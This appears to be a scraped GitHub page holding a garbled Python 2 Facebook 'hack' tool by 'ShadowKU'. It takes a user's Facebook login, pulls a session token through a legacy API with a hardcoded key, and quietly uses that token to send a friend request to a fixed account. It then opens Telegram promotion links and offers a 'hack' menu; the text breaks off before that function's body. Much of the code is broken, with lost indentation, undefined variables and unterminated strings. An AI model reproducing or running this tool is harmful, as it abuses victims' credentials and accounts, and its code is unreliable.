 # tokyo_source
tokyo_source fucked by black list
🇺🇸⃤STAFF|ABDULA🇺🇸⃤:
RawBlame

#!/usr/normul /python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]


def keluar():
print "\033[1;96m[!] \x1b[1;91mGaranawa"
os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
for e in z + '\n':
sys.stdout.write(e)
sys.stdout.flush()
time.sleep(00000.1)


#### LOGO ####
logo = """
▇◤▔▔▔▔▔▔▔◥▇
▇▏◥▇◣┊◢▇◤▕▇
▇▏▃▆▅▎▅▆▃▕▇
▇▏╱▔▕▎▔▔╲▕▇
▇◣◣▃▅▎▅▃◢◢▇
▇▇◣◥▅▅▅◤◢▇▇
▇▇▇◣╲▇╱◢▇▇▇
▇▇▇▇◣▇◢▇▇▇▇

                                                                                            
\033[0;39m╔▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬╗
\033[0;39m║\033[1;36m* \033[0;36mTelegram \033[1;36m: \033[1;36m@ShadowKU\033[0;31m                      ║
\033[0;39m║\033[1;33m* \033[0;33mGitHub  \033[1;33m : \033[1;33m\033[4mhttps://Github.com/ShadowKU\033[0m \033[0;31m   ║
\033[0;39m║\033[1;36m* \033[0;31mYoutube \033[1;31m : \033[1;31mVertex\033[0;31m                         ║
\033[0;34m╚▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬╝"""

def tik():
titik = ['.   ','..  ','... ']
for o in titik:
print("\r\033[1;96m[●] \x1b[1;93mLogging In \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
berhasil = []
cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mbardast nya"
vuln = "\033[32mbardasta"

os.system("clear")
print "\x1b[1;31m⚔═══════════════════════════☠\x1b[1;93m═══════════════════════════⚔"
print  """\x1b[0;31m  \033[1;96m            \x1b[1;93m[¤] \033[0;96mTelegram : \033[1;96m@ShadowKU\x1b[1;96m  
\033[1;93m \x1b[1;96m               \x1b[1;93m[¤] \x1b[0;31mYoutube : \x1b[1;31mVertex\x1b[1;96m  
\033[1;93m \x1b[1;96m       \x1b[1;93m[¤] \x1b[1;31m⚠ barprsyar nem la hech keshayak ⚠\x1b[0;31m"""
print " \x1b[1;93m⚔══════════════════════════☠\x1b[1;31m═══════════════════════════⚔

CorrectUsername = "pashay"
CorrectPassword = "it"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;96m[\x1b[1;93m☆\x1b[1;96m] \x1b[1;31mUsernamey Toolaka \x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")
    if (username == CorrectUsername):
    password = raw_input("\033[1;96m[\x1b[1;93m☆\x1b[1;96m] \x1b[1;31mPassworde Toolaka \x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")
        if (password == CorrectPassword):
            print "Tawawa ✅" + username
            loop = 'false'
        else:
            print "Passwordaka Halaya"
            os.system('xdg-open https://t.me/pashay_IT
    else:
        print "Usarnameaka Halaya"
        os.system('xdg-open https://t.me/pashay_IT

def login():
os.system('clear')
try:
toket = open('login.txt','r')
menu() 
except (KeyError,IOError):
os.system('clear')
print logo
print 42*"\033[1;96m="
print('\033[1;96m[☆] \x1b[1;91mFacebookek Daxel Bka \x1b[1;96m[☆]' )
id = raw_input('\033[1;96m[+] \x1b[0;34mID/Email \x1b[1;91m: \x1b[1;92m')
pwd = raw_input('\033[1;96m[+] \x1b[0;34mPassword \x1b[1;91m: \x1b[1;92m')
tik()
try:
br.open('https://m.facebook.com')
except mechanize.URLError:
print"\n\033[1;96m[!] \x1b[1;91mEmail Yan Passwordakat Halaya"
keluar()
br._factory.is_html = True
br.select_form(nr=0)
br.form['email'] = id
br.form['pass'] = pwd
br.submit()
url = br.geturl()
if 'save-device' in url:
try:
sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpasswor

d='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
x=hashlib.new("md5")
x.update(sig)
a=x.hexdigest()
data.update({'sig':a})
url = "https://api.facebook.com/restserver.php"
r=requests.get(url,params=data)
z=json.loads(r.text)
unikers = open("login.txt", 'w')
unikers.write(z['access_token'])
unikers.close()
print '\n\x1b[1;36;40m[✓] Chuyta Naw Accountaka ...'
os.system('xdg-open https://t.me/shadowshopku')
requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
menu()
except requests.exceptions.ConnectionError:
print"\n\x1b[1;91m[!] Hele Internett Nya"
keluar()
if 'checkpoint' in url:
print("\n\x1b[1;92m[!] Accountakat La Checkpointa")
os.system('rm -rf login.txt')
time.sleep(1)
keluar()
else:
print("\n\x1b[1;93mEmail Yan Password Yakeke Hallaya")
os.system('rm -rf login.txt')
time.sleep(1)
login()


def menu():
os.system('clear')
try:
toket=open('login.txt','r').read()
except IOError:
os.system('clear')
print"\x1b[1;91m[!] Tokenakat Tawaw Nya"
os.system('rm -rf login.txt')
time.sleep(1)
login()
try:
otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
a = json.loads(otw.text)
nama = a['name']
id = a['id']
ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
b = json.loads(ots.text)
sub = str(b['summary']['total_count'])
except KeyError:
os.system('clear')
print"\033[1;91mAccountakat La Checkpointa"
os.system('rm -rf login.txt')
time.sleep(1)
login()
except requests.exceptions.ConnectionError:
print"\x1b[1;92mHelle Internet Karanya"
keluar()
os.system("clear")
print logo
print "   \033[1;36;40m      ╔═════════════════════════════════╗"
print "   \033[1;36;40m      ║\033[1;32;40m[*] Nawe Xot\033[1;32;40m: "+nama+"     \033[1;36;40m║"                               
print "   \033[1;36;40m      ║\033[1;34;40m[*] IDyakat  \033[1;34;40m: "+id+"   \033[1;36;40m║"
print "   \033[1;36;40m      ║\033[1;34;40m[*] Subs\033[1;34;40m: "+sub+"                      \033[1;36;40m║"
print "   \033[1;36;40m      ╚═════════════════════════════════╝"
print "\033[1;32;40m[1] \033[1;33;40m══> Hack Krdn"
print "\033[1;32;40m[2] \033[1;33;40m══> Update Krdne Toolaka"
print "\033[1;32;40m[0] \033[1;33;40m══> Daxstne Accountakat"
pilih()

def pilih():
unikers = raw_input("\n\033[1;31;40m>>> \033[1;35;40m")
if unikers =="":
print "\x1b[1;91mZhmarayakt Hallnabzharduwa"
pilih()
elif unikers =="1":
super()
elif unikers =="2":
os.system('clear')
print logo
print " \033[1;36;40m●════════════════════════◄►════════════════════════●\n"
os.system('git pull origin master')
raw_input('\n\x1b[1;91m[ \x1b[1;97mGaranawa \x1b[1;91m]')
menu()
elif unikers =="0":
jalan('Accountakat Daxra')
os.system('rm -rf login.txt')
keluar()
else:
print "\x1b[1;91mZhmarayakt Hallnabzharduwa"
pilih()

def super():
global toket
os.system('clear')
try:
toket=open('login.txt','r').read()
except IOError:
print"\x1b[1;91mTokenakat Tawaw Nya"
os.system('rm -rf login.txt')
time
